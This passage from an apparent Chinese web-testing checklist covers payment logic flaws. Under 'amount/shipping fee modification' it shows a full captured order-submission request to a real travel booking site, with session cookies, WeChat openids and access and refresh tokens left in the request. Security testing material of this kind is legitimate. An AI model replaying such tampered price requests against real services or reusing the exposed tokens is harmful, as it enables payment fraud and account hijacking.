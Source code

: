 * 邮箱同上
* 各种参数fuzz

## 0x03 支付
---

* 金额运费修改

```
POST /iflight/submitorder.html HTTP/1.1
Host: wx.17u.cn
Accept: application/json
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip, deflate
Accept-Language: zh-cn
Content-Type: application/x-www-form-urlencoded
Origin: http://wx.17u.cn
Content-Length: 780
Connetion: keep-alive
User-Agent: Mozilla/5.0 (iPhone; CPU iPhone OS 8_1_1 like Mac OS X) AppleWebKit/600.1.4 (KHTML, like Gecko) Mobile/12B436 MicroMessenger/6.3.13 NetType/3G+ Language/zh_CN
Referer: http://wx.17u.cn/iflight/book2.html?showwxpaytitle=1&guid=0e1d1663-803f-4f0d-962c-6efdd953bfb0&pname=%E4%BC%98%E9%80%89%E7%BB%8F%E6%B5%8E%E8%88%B1&openId=oOCyauK2742VyO4lLB7MR9KyZ21o
Cookie: Hm_lpvt_ce483b7c47bdfff963bf969de6b20019=1455694949; Hm_lpvt_f124dc8d3ca8e5fe66210d2c8c4c9c73=1455694949; Hm_lvt_ce483b7c47bdfff963bf969de6b20019=1455693089; Hm_lvt_dac6eb9775cdf535d3f23bd7df437024=1455530510; Hm_lvt_f124dc8d3ca8e5fe66210d2c8c4c9c73=1455693079; ASP.NET_SessionId=ynx5tnjn35tycx4ed1njfv51; RedEnvelope=mobile=*&proid=1&sign=e657fb8e47cb54685a9dc8ba1c2ef71a; route=04c7e27d7ac260044207170d0d0c2dcc; __tctma=217272534.1455530050464768.1455530050361.1455530050361.1455692231159.2; __tctmb=217272534.2336832102596608.1455694516121.1455694520499.39; __tctmc=217272534.255680334; __tctmd=217272534.49516128; __tctmu=217272534.0.0; __tctmz=217272534.1455692231159.2.1.utmccn=(direct)|utmcsr=(direct)|utmcmd=(none); __tctrack=0; cookieOpenSource=openid=oOCyauK2742VyO4lLB7MR9KyZ21o&token=OezXcEiiBSKSxW0eoylIeGWrGa1k0ZhUFKJ2Kjd4-zx3QnTOZ8dZFNps3K1OWCRUlPHVgWxoAKNpZkdnWqlPK4-rFsO78vhV_f3g5ssJfbvO-sxvyvNd1ejJdQzrafo37eJPpoRbmC4oEv-F13n28g; CooperateUser=CooperateUserId=oOCyauK2742VyO4lLB7MR9KyZ21o&openid=oOCyauK2742VyO4lLB7MR9KyZ21o&MemberId=KJ1N9y9uWzKeAIYNlnf7IQ%3d%3d; CooperateWxUser=CooperateUserId=oOCyauK2742VyO4lLB7MR9KyZ21o&openid=oOCyauK2742VyO4lLB7MR9KyZ21o&MemberId=KJ1N9y9uWzKeAIYNlnf7IQ%3d%3d&token=OezXcEiiBSKSxW0eoylIeGWrGa1k0ZhUFKJ2Kjd4-zx3QnTOZ8dZFNps3K1OWCRU457vrjrGm572APrLXimER80jQ-aUtGsJG2gofngMvkfOIsX5HHbL8R8vXcvyBn3l6c2rjQeO9pAbvQqg3UYPVA&MemberSysId=33; longKey=1455530050464768; selectIFlightTip=true; WxUser=openid=oOCyauK2742VyO4lLB7MR9KyZ21o&token=OezXcEiiBSKSxW0eoylIeGWrGa1k0ZhUFKJ2Kjd4-zx3QnTOZ8dZFNps3K1OWCRU457vrjrGm572APrLXimER80jQ-aUtGsJG2gofngMvkfOIsX5HHbL8R8vXcvyBn3l6c2rjQeO9pAbvQqg3UYPVA&refreshtoken=OezXcEiiBSKSxW0eoylIeGWrGa1k0ZhUFKJ2Kjd4-zx3QnTOZ8dZFNps3K1OWCRUPl81zJaYBlhJ559aXBeMJxcXQjdSymG3BlcYQapjwxGizgjMMomJlQRrag5UzFSLvQeUmKHWQMxUUkKgTLhGww&userid=KJ1N9y9uWzKeAIYNlnf7IQ==

req=%7B%22sg%22%3A%220e1d1663-803f-4f0d-962c-6efdd953bfb0%22%2C%22opass%22%3A%5B%7B%22ln%22%3A%22CE%22%2C%22fn%22%3A%22SHI%22%2C%22sex%22%3A1%2C%22nat%22%3A%22%E4%B8%AD%E5%9B%BD%22%2C%22bir%22%3A%221989-01-01%22%2C%22ctype%22%3A%221%22%2C%22no%22%3A%2215262727%22%2C%22pt%22%3A%221%22%2C%22lid%22%3A%2297789585%22%2C%22bx%22%3A%5B%7B%22bxtype%22%3A391%2C%22bxprice%22%3A80%2C%22bxcutprofit%22%3A0%2C%22reentryAmount%22%3A65%2C%22bxqz%22%3Afalse%7D%2C%7B%22bxtype%22%3A331%2C%22bxprice%22%3A20%7D%5D%7D%5D%2C%22contact%22%3A%7B%22mo%22%3A%2213111111111%22%2C%22email%22%3A%22%22%7D%2C%22mtype%22%3A0%2C%22account%22%3A%22%22%2C%22memid%22%3A139978118%2C%22Plat%22%3A10%2C%22pubplat%22%3A501%2C%22inf%22%3A0%2C%22cnn%22%3A0%2C%22adt%22%3A1%2C%22total%22%3A1462%7D&moblie=13111111111
```
